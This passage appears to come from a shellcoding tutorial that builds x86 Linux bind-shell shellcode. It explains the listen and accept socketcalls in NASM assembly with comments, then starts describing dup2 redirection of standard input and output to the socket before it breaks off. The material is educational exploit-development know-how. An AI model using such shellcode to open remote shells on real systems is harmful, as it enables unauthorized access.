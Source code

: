 			xor esi,esi
        		push esi    #null (backlog)
        		push edi    #sockfd
          		mov ecx,esp
          		mov al,0x66 #102 socketcall
          		mov bl,0x4  #SYS_LISTEN  functioncall
          		int 0x80

          		EAX 0x66 , 102 socketcall
        		EBX 0x4  , SYS_LISTEN  functioncall

        		#int listen(int sockfd, int backlog);
        		ECX contains the address location to sockfd and null(backlog)	
        		 		


	>Accepting the connection
		
    	    		Syscall to accept the incomming connection.On success, these system calls return a nonnegative integer that is a
       	  		file descriptor for the accepted socket

			int fd = accept(sock, NULL, NULL);
			int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);

			sock : socket descriptor that has been created with socket function
			sockaddr and socklen_t : set to null ,since we dont need to store the details of the peer connection host
			The argument addr is a pointer to a sockaddr structure.  This
       				structure is filled in with the address of the peer socket, as known
       				to the communications layer.  The exact format of the address
       				returned addr is determined by the socket's address family (see
       				socket(2) and the respective protocol man pages).  When addr is NULL,
       				nothing is filled in; in this case, addrlen is not used, and should
       				also be NULL.
		NASM

       	    		xor esi,esi
            		push esi     ;addrelen 0   since peer info is not needed
        		push esi     ;sockaddr *addr 0
        		push edi     ;sock fd
        		mov ecx,esp
        		mov al,0x66  ;socketcall 
        		mov bl,0x5   ;sys_accept function
        		int 0x80

        		EAX 0x66 , 102 socketcall
        		EBX 0x5  , SYS_ACCEPT  functioncall
        					int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);

        		ECX contains address location to sockfiledescriptor ,0 ,0			


    	>Redirect STDIN, STDOUT and STDERR to the socket once a connection is made
       			
       		 	Redirect/Duplicate stdin,stdout,stderr to the socket process	

       		 	This system call create a copy of the file descriptor oldfd.dup2 makes newfd be the copy of oldfd. 0 represents stdin ,1 stdout and 2 stderror respectively. This is done basically to transfer input,output and error to the socket connection(socket descriptor)
